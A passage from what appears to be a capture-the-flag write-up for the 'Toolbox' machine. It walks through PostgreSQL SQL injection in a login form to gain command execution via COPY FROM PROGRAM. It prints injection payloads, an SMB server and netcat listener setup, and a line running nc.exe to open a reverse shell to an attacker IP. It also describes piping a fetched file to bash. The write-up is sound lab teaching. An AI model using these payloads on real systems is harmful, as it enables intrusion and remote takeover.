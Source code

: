 If I'm looking for examples of queries to inject into **[PayloadsAllTheThings - PostgreSQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/PostgreSQL Injection.md){:target="_blank"}**, I'm going to try to get a **PostgreSQL Command execution**. First a table must be created to store the output of the executed command and then I must execute it using the **COPY FROM PROGRAM** function. If I create the table twice, it informs me that it is not possible because one already exists, so I am facing an **RCE**. If I try basic commands, I cannot see the result on the screen and if I use `impacket-smbserver` to load from the victim machine **nc.exe** and get a **Reverse Shell** I do not succeed.

```bash
locate nc.exe
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .

impacket-smbserver smbFolder $(pwd) -smb2support
rlwrap nc -nlvp 443
```

```sql
username=admin';CREATE TABLE temp(t text)-- -&password=admin
username=admin'%3bCREATE+TABLE+temp(t+text)--+-&password=admin

username=admin'%3bCREATE+TABLE+cmd_exec(cmd_output+text)--+-&password=admin
username=admin';COPY cmd_exec FROM PROGRAM 'id'-- -&password=admin

username=admin'%3bCOPY+cmd_exec+FROM+PROGRAM+'\\10.10.14.15\smbFolder\nc.exe+-e+cmd+10.10.14.15+443'--+-&password=admin
```

<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_15.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_16.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_17.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_18.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_19.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_20.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

The injections with `impacket-smbserver` are not working, but if I try to load a resource from the victim machine with `curl` and create a local server with `python3`, I see that a request is being sent. Maybe the **RCE** is being performed in a container, and it is not necessarily running a **Windows** OS, it could be **Linux**. If I create a malicious `index.html` with code to send a **Reverse Shell** and inject a query that loads it and interprets it with `bash`, I get a terminal on the victim machine.
